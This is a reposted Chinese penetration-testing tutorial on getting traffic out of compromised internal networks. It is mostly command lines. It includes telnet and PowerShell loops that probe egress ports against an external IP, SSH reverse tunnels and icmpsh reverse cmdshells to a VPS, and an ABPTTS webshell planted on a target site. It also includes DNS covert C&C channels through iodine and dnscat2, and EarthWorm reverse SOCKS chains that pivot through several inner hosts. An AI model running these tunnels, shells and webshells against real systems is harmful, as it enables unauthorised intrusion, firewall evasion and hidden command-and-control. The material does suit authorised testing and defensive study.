



原文 by [RcoIl的窝](http://rcoil.me/2017/06/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95-%E4%B9%8B-%E4%BB%A3%E7%90%86%E7%AF%87/)  

服务器处于内网，可以访问外部网络。  
服务器处于外网，可以访问外部网络，但是服务器安装了防火墙来拒绝敏感端口的连接。  
服务器处于内网，对外只开放了80端口，并且服务器不能访问外网网络。  
对于以上三种情况，传统的方法可以突破1和2二种（全都可以理解为lcx），第3种可以使用SOCKS代理。  
代理小技巧

## 判断什么端口能出来  
### VISTA 以下
* TCP
`FOR /L %i IN (1,1,65535) DO (cmd /c "start /b telnet 151.101.73.147 %i")`  
用 TELNET 不停的连接你的 1-65535 端口, 你本地开个 TCPDUMP 就行了, 如果连通了, 就 OK 。  

* UDP
`FOR /L %i IN (1,1,65535) DO (cmd /c "start /b nslookup -port=%i rcoil.me 151.101.73.147")`  
这个速度慢，但是有效。  

### VISTA 以后
* TCP
```
function sT($IP,$Port) {$Address = [system.net.IPAddress]::Parse($IP);$End = New-Object System.Net.IPEndPoint $address, $port;$Saddrf = [System.Net.Sockets.AddressFamily]::InterNetwork;$Stype = [System.Net.Sockets.SocketType]::Stream;$Ptype = [System.Net.Sockets.ProtocolType]::TCP;$Sock = New-Object System.Net.Sockets.Socket $saddrf, $stype, $ptype;$Sock.TTL = 26;try { $sock.Connect($End);[Byte[]] $Message = [char[]]"w00tw00t";$Sent = $Sock.Send($Message);$sock.EndConnect($Connect)} catch {};$Sock.Close();};1..65535 | %{ sT -IP "151.101.73.147" -Port $_ }
```
* UDP
```
function sU($IP, [int]$Port){$Address = [system.net.IPAddress]::Parse($IP);$End = New-Object System.Net.IPEndPoint($Address, $port);$Saddrf=[System.Net.Sockets.AddressFamily]::InterNetwork;$Stype=[System.Net.Sockets.SocketType]::Dgram;$Ptype=[System.Net.Sockets.ProtocolType]::UDP;$Sock=New-Object System.Net.Sockets.Socket $saddrf, $stype, $ptype;$Sock.TTL = 26;$sock.Connect($end);$Enc=[System.Text.Encoding]::ASCII;$Message = "w00tw00t";$Buffer=$Enc.GetBytes($Message);$Sent=$Sock.Send($Buffer);}; 1..65535 | %{ sU -IP "151.101.73.147" -Port $_ }
```

## SSH隧道
编辑/etc/ssh/sshd_config文件（服务器端）中：  

```
GatewayPorts yes
PermitRootLogin yes
PermitTunnel yes #Tunnel启用
ClientAliveInterval 60 #指定了服务器端向客户端请求消息的时间间隔,
ClientAliveCountMax 3 #请求后客户端没有响应的次数达到3次, 就自动断开
```
接着重启ssh服务  
 
参数详解：  
-q Quiet mode. 安静模式 
-T Disable pseudo-tty allocation. 不占用 shell 了  
-N：Do not execute a remote command. 不执行远程命令，端口转发就用它了。  
-C：该参数将使ssh压缩所有通过Secure Shell客户端发送的数据，包括输入、输出、错误消息及转发数据。它使用gzip算法，压缩级别可通过设置配制文件中的参数Compressicn Level来指定。这对于缓慢的传输线路特别有用的。但对于传输速度已经很快的网络则显得没有必要。同样，你可以利用配制文件针对每台主机配置这个参数。  
-f：该参数将ssh连接送入后台执行。这在验证已经完成且TCP/IP转发已经建立的情况下会生效。这对在远程主机上启动X程序显得十分重要。其后用户将被提示要求输入口令(提供的认证代理不运行)，然后将连接送往后台。并推荐加上 -n 参数    
-g：该参数允许远程主机通过端口转发与主机端口相连，通常情况下仅允许本地主机这样做。   
-R：远程转发 
-L：本地转发  
-D：...  

### 端口转发
```
ssh -qTfnN -L hostport:host:port -l user remote_ip #正向隧道
ssh -qTfnN -R port:host:hostport -l user remote_ip #反向隧道
```
举个例子  
```
ssh -N -R 5555:192.168.2.100:5556 username@host  # 5555是本地端口，本地访问5555就是访问vps的5556。
ssh -N -R 5555:192.168.2.100:5556 username@host  # 5555是vps的端口，访问vps的5555就是访问本地的5556。
```
### 正向代理
```
SSH -qTfnN -D port remotehost #直接进行socks代理
ssh -qTfnN -D 6080 user@theserver #在本地终端中运行
``` 
然后在浏览器或者软件中设置好代理参数   
socks5: 127.0.0.1:6080 后便可以使用.  
-q：静默运行   
### 远程转发(反向)  

第一步：  
sudo python -m SimpleHTTPServer 80  
在目标机子开启80端口服务  
第二步：  
`ssh -p 22 -qngfNTR 6666:localhost:22 VPS-user@VPS`  
这样就把目标本地的22端口转发到了远程机器（VPS）的6666端口  
第三步： 
个人PC机器直接使用语句:  
`ssh -p 6666 -qngfNTD 6767 内网用户@VPS`  
这样就可以直接穿透网络，进入到内网，本地机器直接使用SOCKS5代理127.0.0.1:6767便能够直接访问到目标内网当中  

## ICMP隧道
ICMP隧道是通过将任意数据注入发送到远程计算机的回送数据包来工作的。要判断是否能使用ICMP隧道，我们只需要关注一件事情：可以ping一个外部服务器。如果能到达外部网络，，那么很有可能可以建立一个icmp隧道。缺点是需要root/administrator权限。  

### icmpsh
vps上：    
```
git clone https://github.com/inquisb/icmpsh.git
apt-get install python-impacket
sysctl -w net.ipv4.icmp_echo_ignore_all=1
python icmpsh_m.py 39.xxx.xxx.17 182.xxx.xxx.207
```
靶机上：  

`icmpsh.exe -t 39.xxx.xxx.17 -d 500 -b 30 -s 128`  
就会在vps上接到一个cmdshell。  

## HTTP代理
### abptts
[项目地址](https://github.com/nccgroup/ABPTTS)    
首先,安装好工具所需的各种py依赖库:  
```
pip install pycrypto    加密库,整个数据加密都要靠这个  
pip install httplib2  
```
生成好服务端(webshell)，-o用来指定要生成到的目录，然后把生成好的对应类型的代理脚本扔到目标网站目录中，并尝试访问该脚本，如果返回了一段类似hash的数据,说明代理端执行正常,继续进行后面的步骤即可，如下:  
```
python abpttsfactory.py -o webshell
abppts_webshell
abppts_webshell_request
```
  
  
前面确认没有问题后,现在开始绑定端口，建立隧道，下面的意思就是把远端[目标机器]的3389端口和本地的1234端口进行绑定，-c用来指定webshell的配置文件[这里直接用默认的]，-u 指定webshell的url，关于更多选项用法，看下工具帮助就明白了，都非常简单的:  

`python abpttsclient.py -c webshell\config.txt -u "http://www.rcoil.com/abptts.aspx" -f 127.0.0.1:1234/127.0.0.1:3389`
隧道建立成功后，用相应的socks代理客户端工具[proxychains,sockscap……]连接到前面已经绑定好的本地端口[1234端口]，即可访问目标内网中的资源:  
```
mstsc 127.0.0.1:1234
putty ssh root@127.0.0.1 -p 1234 -i ~/.ssh/xxx/id_rsa  	如果对方的ssh只允许证书登录,加载上自己的证书即可
```

## DNS隧道
不论对出站流量采取多么严格的访问控制，你可能都要允许至少对一个服务器的 DNS 请求。对手就可以利用这个防火墙上的“大洞”来偷运数据，并且建立一个非常难以限制的隐蔽命令控制信道。  

### Iodine
它几乎是和hans icmp隧道工具一样的工作机制，它在它们之间创建一对tun适配器和隧道数据作为DNS查询。[使用手册](http://dev.kryo.se/iodine/wiki/HowtoSetup)   
Server端：  

`iodined -f -c -P password 1.1.1.1 tunneldomain.com`  
Client端：  

`iodine -f -P password tunneldomain.com -r`  
成功连接将直接在客户端生成地址1.1.1.2。请注意，这种隧道技术的速度相当慢。最好的办法是在生成的连接上使用ssh连接：  

`ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080`  

### Dnscat2
[Dnscat2](https://github.com/iagox86/dnscat2) 通过建立C&C通道递归DNS查询。此工具不需要root/administrator权限（在Windows和Linux上都可以使用），它还支持端口转发。    
Server端：    

`ruby ./dnscat2.rb tunneldomain.com`  
Client端：  

`./dnscat2 tunneldomain.com`  
收到Server端的连接后，可以使用windows命令查看活动会话：  

```
dnscat2> windows
0 :: main [active]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = tunneldomain.com [*]
  1 :: command session (debian)
  2 :: sh (debian) [*]
```
要启动端口转发，请选择一个命令会话session -i ：  

```
dnscat2> session -i 1
New window created: 1
New window created: 1
history_size (session) => 1000
This is a command session!
That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.
command session (debian) 1>
```
使用listen [lhost:]lport rhost:rport命令转发端口：  

`command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80`  
这将绑定靶机上的端口8080，并将所有连接转发到10.0.0.20:80。  

## TCP隧道
### shootback
[shootback](https://github.com/aploium/shootback)，是由python开发的反向TCP隧道，使得NAT或防火墙后的内网机器可以被外网访问。在800并发下消耗小于1％的CPU和8MB内存。  
….

## SOCKS  
在实际渗透测试过程中，当我们成功的拿下第一台靶机后，此时我们又想对目标内网进一步渗透测试时，socks能够帮助我们更加快速的，方便的访问目标内网的各种资源，比传统的端口转发更加实用。  

### socks代理工具
socks代理其实也可理解为一个增强版的 lcx，它在服务端监听一个服务端口，当有新的连接请求时会从socks协议中解析出访问目标的URL的目标端口，再开始执行lcx的具体功能。  

网络上Socks代理工具有很多，选用的时候尽可能使用无GUI界面的工具，还有尽可能不需要安装其他依赖软件，能够支持多平台操作系统的更佳。  

### Earthworm

工具网址：http://rootkiter.com/EarthWorm  
EW 是一套便携式的网络穿透工具，具有 SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。该工具能够以正向、反向、多级级联等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。  
工具包中提供了多种可执行文件，以适用不同的操作系统，Linux、Windows、MacOS、Arm-Linux 均被包括其内,强烈推荐使用。  

目前已经有了最新版Termite，工具网址：http://rootkiter.com/Termite/  

官方提供的方法就已经很好了，配套的Termite更不错，Termite中，只要节点互通，就可以任意切换代理。  

### 正向 SOCKS v5 服务器

在具有公网IP时：  

`./ew -s ssocksd -l 1080`  
### 反弹 SOCKS v5 服务器

先在一台具有公网 ip :233.233.233.233的主机A上运行以下命令：  

`./ew -s rcsocks -l 1080 -e 8888`  
在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的 8888端口  

`./ew -s rssocks -d 233.233.233.233 -e 8888`  
HackTools 可通过访问=233.233.233.233:1080端口使用 rssocks 主机提供的 socks5 代理服务  

### 二级级联

环境示意图：  
    

环境说明（一）：V1主机配有2块网卡，一块连通外网，一块10.255.11.8只能连接内网V2主机，无法访问内网其它资源。V2主机可以访问内网资源，但无法访问外网。  
```
# V2执行，利用ssocksd方式启动8888端口的socks代理
./ew -s ssocksd -l 8888
# V1执行，将来自外部的1080端口的代理请求转发到V2的8888端口上
./ew -s lcx_tran -l 1080 -f 10.255.11.3 -g 8888
# Attack执行，使用Proxifier等建立正常的socks代理访问1080端口
```
环境说明（二）：V1主机没有公网IP，也无法访问内网资源。V2主机可以访问内网资源，但无法访问外网。  

```
# VPS执行，把来自外部的1080端口的流量转到本地的8888端口上
./ew –s lcx_listen –l 1080 –e 8888
# V2执行，在本地启动socks5代理并监听9999端口
./ew -s ssocksd -l 9999
# V1执行，把vps的8888端口和V2的9999进行绑定,即建立socks5通道
./ew -s lcx_slave -d 123.123.1.1 -e 8888 -f 10.255.11.3 -g 9999
# Attack执行，使用Proxifier等建立正常的socks代理访问1080端口
```

### 三级级联

再提供一个“三级级联”的本地SOCKS测试用例以供参考    
环境示意图：    
    

环境说明：Web server没有公网IP但可以访问外网，V2主机不能访问外网但可以被Web server主机访问，V3主机可被V2主机访问且能访问核心区域  
```
# vps上执行，把来自外部的1080端口流量转到本地的8888端口上
./ew -s rcsocks -l 1080 -e 8888  
# Web server执行，把vps的8888端口和内网V2的9999端口绑定
./ew -s lcx_slave -d 123.123.1.1 -e 8888 -f 10.255.12.2 -g 9999 
# V2执行，将来自外部的7777端口和本地的9999端口进行绑定
./ew -s lcx_listen -l 9999 -e 7777 
# V3执行，将本地的socks连接反弹到V2的7777端口上
./ew -s rssocks -d 10.255.12.2 -e 7777 
# Attack执行，使用Proxifier等建立正常的socks代理访问1080端口
```
数据流向: Attack(SOCKS v5) -> 1080 -> 8888 -> 9999 -> 7777 -> rssocks  